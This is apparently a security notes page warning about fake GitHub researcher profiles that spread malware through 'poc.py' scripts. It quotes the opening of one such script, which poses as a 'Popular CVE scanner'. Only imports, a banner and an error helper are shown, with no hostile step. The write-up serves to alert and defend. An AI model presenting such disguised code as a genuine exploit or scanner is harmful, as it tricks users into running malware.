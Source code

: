 # Github 0 Days

## Fake Github Profiles

Recently, some people have been creating fake researcher profiles on Github and distributing malware (poorly) using the `poc.py` scripts.&#x20;

{% embed url="https://thehackernews.com/2023/06/fake-researcher-profiles-spread-malware.html" %}

&#x20;Here's an example of one:

<figure><img src="../../../.gitbook/assets/image (3677).png" alt=""><figcaption></figcaption></figure>

A 'famous' researcher only having 1 repository...strange. Here's the link if you wanna take a look at it for yourself, and obviously **do not run their POC scripts:**

> UPDATE: All the repos have been deleted! No one can view them anymore.&#x20;

Here's the contents of their `poc.py` scripts here:

```python
import urllib.request
import stat
import os
import subprocess
import time
import sys
from zipfile import ZipFile

print("###############################################################")
print("###############################################################")
print("                     Popular CVE scanner")
print("###############################################################")
print("###############################################################")

MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def fail(msg):
    print(msg, file=sys.stderr)
    print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
    sys.exit(2)
```